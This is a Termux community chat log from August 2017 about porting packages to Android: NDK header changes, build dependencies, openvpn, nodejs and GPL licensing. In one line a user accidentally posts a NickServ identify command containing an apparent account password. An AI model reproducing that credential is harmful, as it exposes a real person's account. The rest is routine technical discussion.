2017-08-08 05:34:31	live_the_dream	...

2017-08-08 05:35:24	live_the_dream	you can start to notice how little faith i have right?

2017-08-08 05:35:26	live_the_dream	sometimes you can bug fix ... sometimes the correct fix is preventing a whole catagory of bugs

2017-08-08 05:36:32	live_the_dream	but anyway within docker image you have to install multilib

2017-08-08 05:57:54	fornwall	what do you think about https://goo.gl/6aDsQC ?

2017-08-08 05:59:21	fornwall	seems to build under the docker image for aarch64 and x86_64 now, and should hopefully build for 32-bit arm and i686 after installing multilib, I'll try it out

2017-08-08 06:09:47	fornwall	what was it about libexpat-dev?

2017-08-08 06:15:19	gitter	(vishalbiswas) fornwall: with latest ndk update

2017-08-08 06:15:19	gitter	(vishalbiswas) ```

2017-08-08 06:15:19	gitter	(vishalbiswas) /home/vishal/.termux-build/_lib/15.2-arm-21-v11/bin/../lib/gcc/arm-linux-androideabi/4.9.x/../../../../include/c++/4.9.x/cstdio:137:9: error: no member named 'fgetpos' in the global namespace

2017-08-08 06:15:19	gitter	(vishalbiswas) [full message: https://gitter.im/termux/termux?at=59898f36ee5c9a4c5f9eefbb]

2017-08-08 06:17:07	gitter	(fornwall) @vishalbiswas I pushed a fix for that an hour ago, try pulling in the latest git master and try again!

2017-08-08 06:20:19	live_the_dream	for ghostcript

2017-08-08 06:20:45	gitter	(vishalbiswas) @fornwall cannot find that commit, are you sure?

2017-08-08 06:20:45	gitter	(vishalbiswas)

2017-08-08 06:21:09	live_the_dream	its compiling for arm and aarch64 not x86 studf

2017-08-08 06:21:57	gitter	(fornwall) @vishalbiswas it should be this one: https://github.com/termux/termux-packages/commit/e7f446519ceb17afdce50ed12182a8cbcc789cd5 - does it not work?

2017-08-08 06:34:06	gitter	(vishalbiswas) @fornwall still getting that error

2017-08-08 06:34:28	fornwall	live_the_dream: libexpat/ghostscript fails for x86?

2017-08-08 06:35:23	live_the_dream	ghostcript can't find libjpeg and then can't find libexpat...

2017-08-08 06:39:07	gitter	(fornwall) @vishalbiswas hm, strange

2017-08-08 06:39:19	gitter	(vishalbiswas) boost builds

2017-08-08 06:39:40	gitter	(vishalbiswas) but this error comes up when including `/data/data/com.termux/files/usr/include/boost/filesystem/operations.hpp`

2017-08-08 06:40:28	gitter	(vishalbiswas) mongodb configuration is failing when including this file

2017-08-08 06:41:25	gitter	(vishalbiswas) Exact scons config.log:

2017-08-08 06:41:25	gitter	(vishalbiswas) ```

2017-08-08 06:41:25	gitter	(vishalbiswas) scons: Configure: Checking for C++ header file boost/filesystem/operations.hpp...

2017-08-08 06:41:25	gitter	(vishalbiswas) [full message: https://gitter.im/termux/termux?at=59899554c101bc4e3afb12e6]

2017-08-08 06:45:45	gitter	(fornwall) hm, and `/data/data/com.termux/files/usr/include/boost/filesystem/operations.hpp` is the patched file now, which should no longer define `__USE_FILE_OFFSET64`?

2017-08-08 06:46:29	gitter	(vishalbiswas) that is it then

2017-08-08 06:47:02	gitter	(vishalbiswas) I have -DTERMUX_EXPOSE_FILE_OFFSET64

2017-08-08 06:47:02	gitter	(vishalbiswas)

2017-08-08 06:47:10	gitter	(fornwall) aha

2017-08-08 06:47:47	gitter	(vishalbiswas) why is it removed though?

2017-08-08 06:48:19	gitter	(vishalbiswas) isn't there any other way around it?

2017-08-08 06:48:22	gitter	(fornwall) starting from ndk r15c, the headers no longer define fsetpos/fgetpos and other functions, if trying to use __USE_FILE_OFFSET64 and building against an api earlier than android-24

2017-08-08 06:48:22	gitter	(fornwall) see https://github.com/android-ndk/ndk/issues/442

2017-08-08 06:48:48	gitter	(fornwall) the problem is that the libc function fsetpos does not expect a 64-bit off_t on 32-bit android

2017-08-08 06:49:07	gitter	(fornwall) and a 64-bit version, fsetpos64, is only available starting from android-24

2017-08-08 06:49:20	gitter	(fornwall) do mongodb  require 64-bit off_t?

2017-08-08 06:49:39	gitter	(vishalbiswas) yup

2017-08-08 06:50:23	gitter	(fornwall) as stated in the ndk issue, ndk r15 started exposing fsetpos when 64-bit off_t were used, which would cause runtime failures (the calling code would use 64-bit off_t, but the libc function is built expecting a 32-bit value)

2017-08-08 06:51:12	gitter	(fornwall) you could check if setting `TERMUX_PKG_API_LEVEL=24` works for mongodb

2017-08-08 06:51:27	gitter	(fornwall) (it makes the built package require android-24, but at least it's a start

2017-08-08 06:51:53	gitter	(vishalbiswas) but how to we deliver such packages to appropriate devices

2017-08-08 06:53:05	gitter	(fornwall) that's a problem, currently it would install on all devices, but probably not startup due to missing functions in libc. I think the best way would be to expose the required api level in a custom field in the .deb control file

2017-08-08 06:53:59	gitter	(fornwall) and then write an apt hook which validates that the device api level is sufficient to install the package, or shows a descriptive error message instead

2017-08-08 06:54:16	gitter	(vishalbiswas) or we can have subrepos for each platform

2017-08-08 06:55:03	gitter	(vishalbiswas) main repo works on all, subrepos for api and above

2017-08-08 06:55:04	gitter	(fornwall) ah, that's an easier setup

2017-08-08 06:56:07	gitter	(fornwall) does setting `TERMUX_PKG_API_LEVEL=24` fix the mongodb build? it's not very tested as it's not used for any package yet

2017-08-08 06:59:50	gitter	(vishalbiswas) I'm not using that just yet. no device that I own is 24

2017-08-08 07:01:59	live_the_dream	vishalbiswas you run virtual box?

2017-08-08 07:02:33	gitter	(vishalbiswas) yes/no

2017-08-08 07:02:50	live_the_dream	im currently using kvm x86 and 86_64 android

2017-08-08 07:03:01	live_the_dream	try it

2017-08-08 07:03:33	gitter	(vishalbiswas) my desktop has a particular problem with large image files, deadlocks even when installing from sdkmanager

2017-08-08 07:03:52	live_the_dream	should be fast as well

2017-08-08 07:04:41	gitter	(pizzapanther) @vishalbiswas got the uwsgi to compile further but some of the build scripts are set to //sh

2017-08-08 07:04:44	gitter	(pizzapanther) bin

2017-08-08 07:04:52	live_the_dream	im tempted to setup a server and make you login to a termux shell account

2017-08-08 07:04:54	gitter	(vishalbiswas) the real reason that I don't do that is I want to create packages that I can run on my daily device

2017-08-08 07:05:06	live_the_dream	i know

2017-08-08 07:05:18	gitter	(pizzapanther) /bin/sh

2017-08-08 07:05:51	gitter	(vishalbiswas) @pizzapanther you need to disable libcap in uwsgi

2017-08-08 07:05:53	live_the_dream	but dev stuff is faster

2017-08-08 07:06:23	gitter	(pizzapanther) I could probably get it to work but it's becoming too much work to pip install stuff

2017-08-08 07:06:38	gitter	(pizzapanther) So I'm going to try a chroot

2017-08-08 07:06:52	gitter	(pizzapanther) Those work on termux?

2017-08-08 07:07:50	gitter	(vishalbiswas) there are a few options, https://github.com/Neo-Oli?tab=repositories

2017-08-08 07:10:39	gitter	(pizzapanther) Good to know, I'll try it today

2017-08-08 07:11:42	gitter	(pizzapanther) Since everyone hard codes /bin/sh and /bin/bash it gets annoying

2017-08-08 07:12:18	gitter	(vishalbiswas) `termux-chroot` from proot

2017-08-08 07:29:55	gitter	(fornwall) I've just pushed support for setting `TERMUX_PKG_BUILD_DEPENDS="pkg1, pkg2"`, for build-time dependencies

2017-08-08 07:31:18	live_the_dream	ool

2017-08-08 07:47:03	BenL90_	hello

2017-08-08 07:47:05	BenL90_	test

2017-08-08 07:47:09	BenL90_	errr...

2017-08-08 07:47:55	gitter	(vishalbiswas) BenL90: we are receiving you

2017-08-08 08:34:34	gitter	(suryapoo) Hey guys

2017-08-08 08:35:05	gitter	(suryapoo) When we write exec() command,we execute kernel call...right?

2017-08-08 08:35:41	gitter	(suryapoo) So if i do that in a c program in termux..it will call Android's kernel?

2017-08-08 08:49:42	iheartlinux	found this today. lovin' it

2017-08-08 09:18:12	Grimler	I updated the docker image to the latest one and now I'm unable to run perl (in the image), I get "bash: /usr/bin/perl: cannot execute binary file: Exec format error". Have I somehow broken something or is it an error in the docker image?

2017-08-08 11:16:08	Grimler	Docker seem to work now after I deleted image+container and downloaded again

2017-08-08 12:25:46	gitter	(Auxilus) @vishalbiswas, if we use newest version to clone Metasploit everytime, new gems are being added as dependencies, which are showing errors while installing

2017-08-08 12:26:28	gitter	(Auxilus) I'm getting errors for rbnacl-libsodium -v'1.0.11'

2017-08-08 12:27:06	gitter	(Auxilus) ```

2017-08-08 12:27:06	gitter	(Auxilus)

2017-08-08 12:27:06	gitter	(Auxilus) ```

2017-08-08 12:27:15	gitter	(Auxilus) ```localhost: ~  gem install rbnacl-libsodium -v'1.0.11'

2017-08-08 12:27:15	gitter	(Auxilus) Building native extensions.  This could take a while...

2017-08-08 12:27:15	gitter	(Auxilus) ERROR:  Error installing rbnacl-libsodium:

2017-08-08 12:27:15	gitter	(Auxilus) [full message: https://gitter.im/termux/termux?at=5989e663329651f46effb53f]

2017-08-08 13:49:20	gitter	(vishalbiswas) `apt install libsodium-dev`

2017-08-08 14:18:32	Regenaxer	Concerning the vim issue yesterday: The shift-left problems disappear if I comment the lines 'map <ScrollWheelUp>' and '...Down>' in usr/share/vim/vimrc

2017-08-08 14:18:57	Regenaxer	No idea where they come from. They are not in the Debian version

2017-08-08 14:19:23	Regenaxer	And I don't see how they affect the '<' family of commands in vim

2017-08-08 14:19:57	Regenaxer	But now vim is usable again :)

2017-08-08 14:24:40	u0_a166	could you add #define fgetpos fgetpos64 in files that need it?

2017-08-08 14:25:56	u0_a166	as part of a before-build script maybe

2017-08-08 16:20:12	gitter	(Grimler91) I have a porting question!

2017-08-08 16:24:14	u0_a166	what is your question. someone who knows might see it in the chatlog later

2017-08-08 16:24:28	gitter	(Grimler91) I gave clisp another try and managed to almost get it working this time. It actually almost works to compile and build on device with gcc-7 from pointless's repo. (I used env CC=gcc-7 ac_cv_func_mmap=no ../configure CFLAGS="-DNO_GENERATIONAL_GC -landroid-support"). It then generates a binary file (lisp.run) that unfortunately segment faults with some reference to some mapping error or something. Anyways, I googled arround and som

2017-08-08 16:24:28	gitter	try to debug it with valgrind, when I run the command that previously failed inside valgrind, I get no segmentation fault. Is this expected? What

2017-08-08 16:24:38	gitter	(Grimler91) What does valgrind actually do?

2017-08-08 16:24:52	gitter	(Grimler91) u0_a166 yeah let's hope so :)

2017-08-08 16:25:51	u0_a166	i tried to build clisp one time and got about that far via other means

2017-08-08 16:26:51	u0_a166	+ i think the lisp.run image needs too much stack memory. didn't have root to ulimit high enough

2017-08-08 16:27:40	u0_a166	let's try again!

2017-08-08 16:32:33	gitter	(Grimler91) yeah, I got an error that said that first ("Cannot map memory to address 0x4000000000000 .

2017-08-08 16:32:33	gitter	(Grimler91) 	[src/spvw_mmap.d:353] errno = ENOMEM: Not enough memory.") ac_cv_func_mmap=no took care of that (maybe, at least compilation went further). Please do!

2017-08-08 16:33:46	gitter	(Grimler91) compilation of interpreted.mem worked when running with valgrind in front it seems

2017-08-08 16:34:57	gitter	(Grimler91) but it gave quite some errors to the log file:

2017-08-08 16:35:05	gitter	(Grimler91) le Edit Options Buffers Tools Help

2017-08-08 16:35:05	gitter	(Grimler91) ==11695== Memcheck, a memory error detector

2017-08-08 16:35:05	gitter	(Grimler91) ==11695== Copyright (C) 2002-2017, and GNU GPL'd, by Julian Seward et al.

2017-08-08 16:35:05	gitter	(Grimler91) [full message: https://gitter.im/termux/termux?at=598a2077329651f46e00b358]

2017-08-08 16:50:37	gitter	(Grimler91) Oh, right, and I compiled libsigsegv before, there's an arm binary available here:  https://github.com/Grimler91/Grimler91.github.io/tree/master/files/dists/testing/clisp/binary-arm

2017-08-08 22:33:57	gitter	(Auxilus) Still the error  @vishalbiswas

2017-08-09 00:04:43	gitter	(themastersunil) How can i install java in termux?

2017-08-09 01:26:10	live_the_dream	for now you can't @themastersunil

2017-08-09 01:27:10	rods-tab3	why not ?

2017-08-09 03:19:13	poyntz	can termux be run through adb? if i type bash it drops to bash prompt but I get access denied errors on every command

2017-08-09 03:22:12	poyntz	also is there any way to open apks using termux?  E.g, 'open -a Sublime\ Text <filename>' (for OS x opens a file in 'Sublime Text'.app. Wondering if there's a termux-open or termux-share, etc. equivalent for .apk <filename>

2017-08-09 03:55:36	rods-tab3	$ termux-open --help

2017-08-09 03:55:37	rods-tab3	Usage: termux-open [options] path-or-url

2017-08-09 03:55:37	rods-tab3	Open a file or URL in an external app.

2017-08-09 03:55:37	rods-tab3	--send               if the file should be shared for sending

2017-08-09 03:55:37	rods-tab3	--view               if the file should be shared for viewing (default)

2017-08-09 03:55:37	rods-tab3	--chooser            if an app chooser should always be shown

2017-08-09 03:55:37	rods-tab3	--content-type type  specify the content type to use

2017-08-09 11:26:18	gitter	(pizzapanther) just fyi @vishalbiswas using the chroot helps alot because at least I can make a symlink to `/bin/` and '/usr/bin` then most install scripts stop complaining

2017-08-09 11:27:30	gitter	(pizzapanther) now i just need to figure out how to get the heroku-cli installed

2017-08-09 12:34:00	gitter	(pizzapanther) so if i use nvm or n to install a different version node i get `./node: No such file or directory`

2017-08-09 12:34:12	gitter	(pizzapanther) the file is clearly there so what gives?

2017-08-09 12:34:56	gitter	(pizzapanther) i'm on the pixel with i686 so i've been using the 32bit version

2017-08-09 12:35:08	gitter	(pizzapanther) do i need to  do the arm version?

2017-08-09 13:42:18	gitter	(vishalbiswas) @pizzapanther Node cannot be easily installed in termux like that. the nodejs package inbthe repo is heavily modified to work in termux

2017-08-09 13:45:26	gitter	(Thatguy1114) Is it possible to set up torch in termux?

2017-08-09 14:31:38	gitter	(pizzapanther) @vishalbiswas i need node version 8.1.4 to get heroku-cli to work, so how is it possible to get other versions on?

2017-08-09 16:22:56	ishmael	hello

2017-08-09 16:23:52	ishmael	Has any one been able to get nvm [node version manager] up and running?

2017-08-09 19:53:42	gitter	(fornwall) @pizzapanther there is now a `nodejs-current` package available, currently at version 8.2.1

2017-08-09 20:47:47	voldo	hello world

2017-08-09 22:18:54	poyntz	hi. is there any way to open a text file in QuickEdit Pro using termux?

2017-08-09 22:19:06	poyntz	ie., com.rhmsoft.edit.pro

2017-08-09 22:20:44	poyntz	e.g, termux-<command> <application> <text file>

2017-08-09 22:29:34	poyntz	if not it'd be a great feature.  currently  have to use vi / vim to edit text and it's super slow but in their defence they seem to  handle default syntax highlighting for just about every file which is awesome.

2017-08-09 22:29:39	live_the_dream	fornwall: going to try and get flang working today ...

2017-08-09 22:30:51	live_the_dream	xdg-open text and make quickedit pro handle it?

2017-08-09 22:34:16	poyntz	live_the_dream: tried that - it comes up with chooser (to open .bashrc)  which gives me 3 selections, "Nova Launcher" (desktop launcher), "Zarchiver" (zip utility), and "Stocard" (member cards)

2017-08-09 22:35:03	live_the_dream	fair enough

2017-08-09 22:40:50	live_the_dream	you could probably do something with changing file name to add .txt at end of it just before xdg-open ... but uh ... yeah

2017-08-09 22:42:21	poyntz	good point. is there a way to change the fileextension in termux to pick up .rc files?

2017-08-09 22:43:17	live_the_dream	scripting

2017-08-09 22:43:17	poyntz	In Mac there's an option/plugin in system prefs called 'Default Apps' which lets you set URIs, default app, etc.

2017-08-09 22:43:52	poyntz	every filename extension on the system gets allocated an app which can be switched

2017-08-09 22:43:53	live_the_dream	ugly ugly scripting

2017-08-09 22:43:53	live_the_dream	you can do that at os level with android

2017-08-09 22:43:53	live_the_dream	cp file to temp add extension

2017-08-09 22:44:08	live_the_dream	xdg open that temp  file

2017-08-09 22:44:28	poyntz	yeh :S

2017-08-09 22:44:52	poyntz	there's not like an .xml file with all filename extensions and their associations tho?

2017-08-09 22:44:54	live_the_dream	but yeah ... not fun times

2017-08-09 22:45:11	poyntz	I have supersu su, so can modify root scripts

2017-08-09 22:45:33	poyntz	or busybox su or whatever its called (with root)

2017-08-09 22:46:37	poyntz	the /su/xbin/su app which lets you change most things if you mount +rw the sys folder you're writing to

2017-08-09 22:47:09	live_the_dream	yeah i dunno about that stuff

2017-08-09 22:47:42	poyntz	that's ok. thanks for the suggestion

2017-08-09 22:48:04	poyntz	you can actually do it via adb off your pc/mac tho, E.g, adb shell am startservice -n packageName/.ServiceClass

2017-08-09 22:48:33	poyntz	or adb shell monkey -p com.yourpackage.name -c android.intent.category.LAUNCHER 1

2017-08-09 22:48:59	live_the_dream	shoudl be able to do it with root

2017-08-09 22:49:59	poyntz	yeh. can't find the command :S

2017-08-09 22:50:20	poyntz	on os X, it's 'open -a <app name> <file>'

2017-08-09 22:51:25	poyntz	in su for android that gives you 'command not found' lol

2017-08-09 22:53:03	live_the_dream	/system/bin/am

2017-08-09 22:58:59	poyntz	thanks. just tried with monkey. seems to open the app but not the file :S

2017-08-09 23:00:37	poyntz	it'd be great to be able to get some man entries which explain how to use this commands

2017-08-09 23:12:27	poyntz	live_the_dream: alright i got it. command is "termux-open --content-type text/html <text file name>"

2017-08-09 23:13:22	poyntz	you just tell termux-open what the mime type is and then it pops it up in the app chooser (first time), and defaults it (subsequent times)

2017-08-09 23:13:22	live_the_dream	ahh

2017-08-09 23:14:10	poyntz	still nfi how to get the manual entries on android tho. need to search manuals on google for everything atm

2017-08-09 23:15:17	poyntz	if anyone has any tips please share

2017-08-09 23:16:10	poyntz	like do we need to add content to $MANPATH to get commands, if so what? else do we need to install some extra packages? how about with $INFOPATH?

2017-08-09 23:16:50	poyntz	e,g, 'man termux-open' current gives "man: No entry for termux-open in the manual."

2017-08-09 23:22:49	gitter	(themastersunil) $ pip install beautifulsoup 4

2017-08-09 23:22:49	gitter	(themastersunil) Collecting beautifulsoup

2017-08-09 23:22:49	gitter	(themastersunil)   Using cached BeautifulSoup-3.2.1.tar.gz

2017-08-09 23:22:49	gitter	(themastersunil) [full message: https://gitter.im/termux/termux?at=598bd189a7b406262d7467ea]

2017-08-09 23:23:23	gitter	(themastersunil) Please fix it

2017-08-09 23:50:50	rods-tab3	i posted 'termux-open --help''  output last night - please read back

2017-08-09 23:59:04	rods-tab3	also check RTFM  https://termux.com/add-on-api.html

2017-08-10 00:07:29	gitter	(Thatguy1114) Torch (the deep learning in terminal) shows this output for when I do thr second step of installation:

2017-08-10 00:10:35	gitter	(Thatguy1114) rgcheck'...

2017-08-10 00:10:35	gitter	(Thatguy1114) fatal: unable to access 'https://github.com/torch/argcheck.git/': Couldn't resolve host 'github.com'

2017-08-10 00:10:35	gitter	(Thatguy1114) fatal: clone of 'https://github.com/torch/argcheck.git' into submodule path '/data/data/com.termux/files/home/torch/extra/argcheck' failed

2017-08-10 00:10:35	gitter	(Thatguy1114) [full message: https://gitter.im/termux/termux?at=598bdcbac101bc4e3a03ef78]

2017-08-10 00:10:53	gitter	(Thatguy1114) Etc and it was on the cloning phase

2017-08-10 01:11:20	gitter	(vishalbiswas) @themastersunil try with pip2

2017-08-10 01:35:34	gitter	(vishalbiswas) @fornwall we get multiple package requests for root apps. Can we create a sub repo where all root-requiring packages will be available?

2017-08-10 01:40:02	gitter	(vishalbiswas) Mostly for fuse. So many people want it

2017-08-10 02:32:54	gitter	(vishalbiswas) 95 unread emails overnight. Don't need reddit frontpage to explode my inbox

2017-08-10 02:52:15	poyntz	rods-tab3: thanks rods - yeh managed to launch the GUI editor by nominating --content-type <mime format> <file>

2017-08-10 02:52:33	poyntz	rods-tab3: not as clear cut interoperability with vlc

2017-08-10 02:53:16	poyntz	doesn't really matter with other apps - just more of a luxury if you're ever working in the Home folder and can randomly launch a file through Movies or whatever

2017-08-10 02:54:03	poyntz	termux-open --content-type 'video/mp4' <file>.mp4 didn't seem to cut it. it launched the program ok but the media didn't load

2017-08-10 02:54:51	poyntz	rods-tab3: also tried installing termux-api via Google Play Store but didn't seem to change anything from the pkg install termux-api version

2017-08-10 02:55:43	poyntz	suspect the api commands are running effectively, just must be some kind of access or interoperability issue between vlc and termux-api

2017-08-10 02:57:24	poyntz	nothing termux related seems to run out of /su/xbin/su (Busybox Su) even with the path added to the libpath and $path variables

2017-08-10 05:35:38	live_the_dream	hmm flang works ... with a few nudges

2017-08-10 07:18:16	poyntz	thanks for the help all. ciao

2017-08-10 08:05:30	_ishmael_	 /msg NickServ identify freenode_1272

2017-08-10 08:05:55	_ishmael_	doh..... gotta watch for spaces

2017-08-10 08:06:02	_ishmael_	?

2017-08-10 08:26:41	gitter	(pizzapanther) @fornwall @vishalbiswas perfect, is there any web interface for packages? that would help a lot, for example i use https://packages.ubuntu.com/ a lot to search for packages and files inside those packages

2017-08-10 08:27:09	gitter	(pizzapanther) if not i could probably help out since i'm a web dev :-)

2017-08-10 08:29:56	gitter	(suryapoo) Hey guys

2017-08-10 08:30:19	gitter	(suryapoo) How to add another use in termux

2017-08-10 08:31:48	gitter	(suryapoo) User*

2017-08-10 09:05:33	gitter	(Grimler91) @pizzapanther  There isn't, that would indeed be helpful!

2017-08-10 09:06:46	gitter	(Grimler91) @suryapoo Why do you want another user? I'm pretty sure it's not possible to add due to android

2017-08-10 09:21:49	gitter	(suryapoo) @Grimler91 coool..

2017-08-10 09:22:05	gitter	(suryapoo) And when I do this less /sdcard/Hi.txt

2017-08-10 09:22:27	gitter	(suryapoo) I get a segmentation fault

2017-08-10 09:22:34	gitter	(suryapoo) What am I doing wrong

2017-08-10 09:34:21	gitter	(Grimler91) @suryapoo Segmentation faults usually means that something is wrong with the program. Open a bug report at github.com/termux/termux-packages and include the full error, your android version + output from `uname -a`

2017-08-10 09:37:33	_ishmael_	It would be nice to get nvm [ node version manger ] working. - any one able to get that to work?

2017-08-10 09:51:11	gitter	(suryapoo) @Grimler91 cool...

2017-08-10 10:04:21	u0_a177	hi

2017-08-10 10:05:46	u0_a177	hi

2017-08-10 10:13:41	gitter	(suryapoo) Issued a new issue about less

2017-08-10 10:19:28	gitter	(vishalbiswas) @pizzapanther you can use apt and dpkg to search for packages and files.

2017-08-10 10:22:34	gitter	(Grimler91) @vishalbiswas doesn't dpkg only show info for files you already have on your system? I.e. if I get an error that Python.h is missing, dpkg can't tell me which package to install

2017-08-10 10:23:53	gitter	(vishalbiswas) well, that's true for termux repos

2017-08-10 10:29:53	gitter	(Grimler91) @vishalbiswas On another note: do you remember the status of openvpn? The latest comment about it was from [April](https://github.com/termux/termux-packages/pull/911) and says that it doesn't work. I managed to build it (had to change the getpass patching) but it doesn't seem to work to open a tunnel ("Linux ip link set failed: could not execute external program"), is this the most current status?

2017-08-10 10:34:14	gitter	(vishalbiswas) @Grimler91 Do you have root? Even then it does not work. It will connect to the server and all, but I can't figure out a way to route all traffic through it

2017-08-10 10:34:36	gitter	(Ashish882) Hi

2017-08-10 10:34:55	gitter	(Ashish882) How to install java in termux

2017-08-10 10:35:25	gitter	(vishalbiswas) @Ashish882 wiki.termux.com has a section about java

2017-08-10 10:37:20	gitter	(Ashish882) OK

2017-08-10 10:38:27	gitter	(Ashish882) @vishalbiswas copy a code of other and uploading them with some change are right in github or wrong

2017-08-10 10:40:01	gitter	(vishalbiswas) @Ashish882 depends on the license they specify

2017-08-10 10:40:54	gitter	(Ashish882) If there is license in any code we can't come them

2017-08-10 10:42:12	gitter	(vishalbiswas) @Ashish882 there are different types of licenses and they specify how the code can be used or redistributed

2017-08-10 10:42:41	gitter	(vishalbiswas) Read this -> https://choosealicense.com/licenses/

2017-08-10 10:44:54	gitter	(Grimler91) @vishalbiswas have root, yes. Hm, do we get the same error? Here's an output from my device:

2017-08-10 10:44:54	gitter	(Grimler91) [SOME VPN] Peer Connection Initiated with [AF_INET]AN_IP_ADDRESS

2017-08-10 10:44:54	gitter	(Grimler91) Option 'explicit-exit-notify' in [PUSH-OPTIONS]:7 is ignored by previous <connection> blocks

2017-08-10 10:44:54	gitter	(Grimler91) [full message: https://gitter.im/termux/termux?at=598c7165bc464729746eb4a9]

2017-08-10 10:46:04	gitter	(Grimler91) @vishalbiswas I'll have a look at the [openvpn app](https://github.com/schwabe/ics-openvpn) (when I have time) and see if I can come up with some patches that helps

2017-08-10 10:46:16	gitter	(vishalbiswas) @Grimler91 that'd be great

2017-08-10 10:46:36	gitter	(vishalbiswas) for my device, everything succeeds

2017-08-10 10:46:45	gitter	(vishalbiswas) but I just don't have the route through vpn

2017-08-10 10:46:49	gitter	(vishalbiswas) no errors nothing

2017-08-10 10:47:04	gitter	(vishalbiswas) and it should not use /system/bin/ip

2017-08-10 10:47:14	gitter	(vishalbiswas) it should use the one from net-tools package

2017-08-10 10:51:55	gitter	(Grimler91) @vishalbiswas I was playing around trying to get it to work and changed from $PREFIX/bin/{ip,route,...} to /system/bin/{...}. I think I got the same error with net-tools as well but I should re-check that.

2017-08-10 11:06:21	gitter	(Grimler91) @vishalbiswas Nope, same error

2017-08-10 11:11:16	gitter	(vishalbiswas) I only tested ipv4 so...

2017-08-10 11:11:33	gitter	(Ashish882) @vishalbiswas

2017-08-10 11:11:35	gitter	(Ashish882)

2017-08-10 11:11:35	gitter	(Ashish882)  Copyright (C) 2007 Free Software Foundation, Inc. <http://fsf.org/>

2017-08-10 11:11:35	gitter	(Ashish882)  Everyone is permitted to copy and distribute verbatim copies

2017-08-10 11:11:35	gitter	(Ashish882) [full message: https://gitter.im/termux/termux?at=598c77a7210ac269206f2050]

2017-08-10 11:11:56	gitter	(Ashish882) It mean I can't add some new file in it

2017-08-10 11:12:09	gitter	(Ashish882) If I add in it what happen

2017-08-10 11:13:30	gitter	(vishalbiswas) That header says modifying "it" which refers to that license file and not the code in that repo

2017-08-10 11:16:52	gitter	(pizzapanther) for nodejs-current how often does that get updated? right now it has problems with npm install, so like 8.3.0 came out today, what's the process cycle like?

2017-08-10 11:22:47	gitter	(Ashish882) @vishalbiswas last question

2017-08-10 11:23:56	gitter	(Ashish882) I want to make changes in this repo. And then re upload it with my name or with differt name .Can I do this?

2017-08-10 11:42:54	sdrausty	679 packages that are available for Termux. https://sdrausty.github.io/pages/more Wow! Thank you.

2017-08-10 12:17:30	gitter	(suryapoo) Gr8888888888888

2017-08-10 12:33:21	gitter	(vishalbiswas) @pizzapanther As soon as someone updates the version number and source checksum in termux-packages repo

2017-08-10 12:33:48	gitter	(vishalbiswas) @Ashish882 which repo>

2017-08-10 12:40:34	gitter	(Ashish882)

2017-08-10 12:40:34	gitter	(Ashish882) from misc import *

2017-08-10 12:40:34	gitter	(Ashish882) import crypt

2017-08-10 12:40:34	gitter	(Ashish882) [full message: https://gitter.im/termux/termux?at=598c8c82210ac269206f7e1c]

2017-08-10 12:41:00	gitter	(Ashish882) @vishalbiswas

2017-08-10 12:41:03	gitter	(Ashish882) https://github.com/toxic-ig/Trity

2017-08-10 12:41:08	gitter	(Ashish882) This repo.

2017-08-10 12:41:55	gitter	(Ashish882) I want to make changes in it and want to re upload this with my changes

2017-08-10 12:45:23	gitter	(vishalbiswas) You can, as long as you have the same license and specify the original author

2017-08-10 12:45:36	gitter	(vishalbiswas) https://choosealicense.com/licenses/gpl-3.0/

2017-08-10 12:52:25	gitter	(Ashish882) OK thanks

2017-08-10 12:53:39	gitter	(suryapoo) $ ln fun fun-hard

2017-08-10 12:53:39	gitter	(suryapoo) ln: failed to create hard link 'fun-hard' => 'fun': Permission denied

2017-08-10 12:54:07	gitter	(suryapoo) I get permission denied when I try to hard link ..I'm in $HOME

2017-08-10 12:54:14	gitter	(suryapoo) please help

2017-08-10 12:54:35	gitter	(Ashish882) I have to made file of this licence only or deleting the other licence of outhiur

2017-08-10 12:54:39	gitter	(Ashish882) @vishalbiswas

2017-08-10 12:55:10	gitter	(Ashish882) @suryapoo because you don't give permissions

2017-08-10 12:56:04	gitter	(suryapoo) Should I use chmod?

2017-08-10 12:56:52	gitter	(vishalbiswas) @suryapoo Hard links are not supported on android

2017-08-10 12:57:40	gitter	(vishalbiswas) @Ashish882 can't understand what yoy are trying to say

2017-08-10 12:57:53	gitter	(suryapoo) Ohhh.. Alrighty.. Any other stuff that is not supported?

2017-08-10 12:58:23	gitter	(vishalbiswas) Lots of things

2017-08-10 12:59:22	gitter	(suryapoo) Ohhhhhh..cool...thanks... But can I learn bash from practicing in termux?

2017-08-10 13:01:31	gitter	(vishalbiswas) Yes

2017-08-10 13:01:33	gitter	(Ashish882) @vishalbiswas I make that licence which is given by you and deleted the licence of the other

2017-08-10 13:02:10	gitter	(Ashish882) Other

2017-08-10 13:02:25	gitter	(vishalbiswas) No, just clone that repo and make changes to the code

2017-08-10 13:02:51	gitter	(Ashish882) Or licence

2017-08-10 13:03:22	gitter	(Ashish882) Outher's licence or other

2017-08-10 13:03:46	gitter	(Ashish882) OK..... @vishalbiswas

2017-08-10 13:04:26	gitter	(vishalbiswas) license should not be changed at all. GPLv3 license requires that any modified code should also be licensed under GPLv3

2017-08-10 13:06:02	gitter	(Ashish882) OK.....

2017-08-10 13:15:23	gitter	(suryapoo) Thanks @vishalbiswas

2017-08-10 13:33:32	gitter	(Auxilus) @vishalbiswas @fornwall can we get auto command completion?

2017-08-10 13:33:58	gitter	(Auxilus) Like then i press `tab` it'll automatically complete the command

2017-08-10 13:44:34	gitter	(vishalbiswas) @Auxilus Ever used fish shell? `apt install fish; chsh -s fish` then restart termux

2017-08-10 13:47:37	gitter	(Auxilus) How can i change it back to default shell?

2017-08-10 13:57:58	gitter	(Auxilus) Nice shell @vishalbiswas ty

2017-08-10 15:19:52	gitter	(Grimler91) @vishalbiswas just fyi, openvpn opens a tunnel as expected on my phone (android 7) but gives the reported error on my tablet (android 5) so I'm guessing the error is android 5 related

2017-08-10 20:41:26	sdrausty	I have an `aapt` question; How significant is, "note: removing attribute http://schemas.android.com/apk/res/android:imeOptions from <EditText>" and similar?

2017-08-10 20:42:05	sdrausty	Has anyone else here built termux-app on device?

2017-08-10 20:43:21	sdrausty	This is where note: removing attribute... note is generated.

2017-08-10 20:53:20	sdrausty	during `aapt package ...`

2017-08-10 21:02:54	adisib	I recently was given a cheap old Android device. I want to install termux, but the Google Play Store says it isn't compatible. What are the requirements for Termux?

2017-08-10 21:05:20	sdrausty	adisib: What Android version do you have?

2017-08-10 21:07:03	adisib	The device in question is 4.4.2

2017-08-10 21:11:54	sdrausty	https://plus.google.com/103283781914164469886/posts/5qFEznQG6Q9

2017-08-10 21:12:25	sdrausty	https://www.google.com/search?q=kitkat+android+version

